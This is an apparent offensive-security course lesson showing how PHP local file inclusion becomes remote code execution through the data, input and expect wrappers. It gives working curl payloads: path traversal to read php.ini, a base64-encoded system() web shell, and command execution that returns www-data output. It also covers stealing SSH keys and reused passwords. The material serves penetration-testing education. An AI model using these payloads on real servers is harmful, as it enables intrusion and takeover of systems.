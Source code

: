 # PHP Wrappers

So far in this module, we have been exploiting file inclusion vulnerabilities to disclose local files through various methods. From this section, we will start learning how we can use file inclusion vulnerabilities to execute code on the back-end servers and gain control over them.

We can use many methods to execute remote commands, each of which has a specific use case, as they depend on the back-end language/framework and the vulnerable function's capabilities. One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session. For example, we may find the database password in a file like config.php, which may match a user's password in case they re-use the same password. Or we can check the .ssh directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (id_rsa) and use it to SSH into the system.

Other than such trivial methods, there are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges. In this section, we will start with remote code execution on PHP web applications. We will build on what we learned in the previous section, and will utilize different PHP Wrappers to gain remote code execution. Then, in the upcoming sections, we will learn other methods to gain remote code execution that can be used with PHP and other languages as well.

## Data
The data wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the *(allow_url_include)* setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

### Checking PHP Configurations


To do so, we can include the PHP configuration file found at (*/etc/php/X.Y/apache2/php.ini*) for Apache or at (*/etc/php/X.Y/fpm/php.ini*) for Nginx, where *X.Y* is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the base64 filter we used in the previous section, as .ini files are similar to .php files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```
Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value:

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
Excellent! We see that we have this option enabled, so we can use the *data* wrapper. Knowing how to check for the *allow_url_include* option can be very important, as **this option is not enabled by default**, and is required for several other LFI attacks, like using the input wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.


### Remote Code Execution

With *allow_url_include* enabled, we can proceed with our *data* wrapper attack. As mentioned earlier, the *data* wrapper can be used to include external data, including PHP code. We can also pass it *base64* encoded strings with *text/plain;base64*, and it has the ability to decode them and execute the PHP code. So, our first step would be to base64 encode a basic PHP web shell, as follows:

```
echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
Now, we can URL encode the base64 string, and then pass it to the data wrapper with *data://text/plain;base64,*. Finally, we can use pass commands to the web shell with *&cmd=<COMMAND>*:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Input


Similar to the *data* wrapper, the *input* wrapper can be used to include external input and execute PHP code. The difference between it and the (data) wrapper is that we pass our input to the *input* wrapper as a POST request's *data*. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the *input* wrapper also depends on the *allow_url_include* setting, as mentioned earlier.

To repeat our earlier attack but with the input wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Expect

Finally, we may utilize the expect wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with *allow_url_include* earlier, but we'd *grep* for *expect* instead, and if it is installed and enabled we'd get the following:

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
As we can see, the extension configuration keyword is used to enable the expect module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the expect:// wrapper and then pass the command we want to execute, as follows:

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
